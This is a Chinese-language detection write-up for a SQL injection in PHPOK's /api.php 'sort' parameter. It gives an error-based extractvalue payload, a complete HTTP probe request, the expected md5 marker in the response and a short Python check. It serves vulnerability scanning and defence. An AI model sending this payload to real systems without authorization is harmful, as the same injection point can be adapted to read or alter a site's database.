 # PHPOK SQL注入漏洞（phpok-sqli）检测说明

## 漏洞简介

PHPOK 存在SQL注入漏洞，攻击者可通过GET请求注入恶意SQL语句，进而获取数据库敏感信息、篡改数据，甚至以管理员权限执行未授权操作。

## 影响范围

- 产品：PHPOK
- CVE编号：无（社区编号 phpok-sqli）
- 危害等级：Critical

## 漏洞原理

/api.php接口的参数未做有效过滤，攻击者可通过sort参数注入SQL语句，利用extractvalue函数触发报错并回显特征数据。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，sort参数注入`1 and extractvalue(1,concat(0x7e,md5(999999999))) --+`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回包含md5(999999999)的特征数据。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /api.php?c=project&f=index&token=1234&id=news&sort=1 and extractvalue(1,concat(0x7e,md5(999999999))) --+ HTTP/1.1
Host: target.com
```

- sort参数注入了`1 and extractvalue(1,concat(0x7e,md5(999999999))) --+`，用于判断是否存在注入点。

### 预期响应与交互

- 响应体需包含`{{md5(999999999)}}`（即`ef775988943825d2871e1cfa75473ec0`），表明SQL语句被执行。

### 判定逻辑

```python
def is_vulnerable(response):
    if 'ef775988943825d2871e1cfa75473ec0' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含md5(999999999)?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> G[判定存在SQL注入漏洞]
```

## 参考链接

- [CVE Report - PHPOK](https://cve.report/software/phpok/phpok) 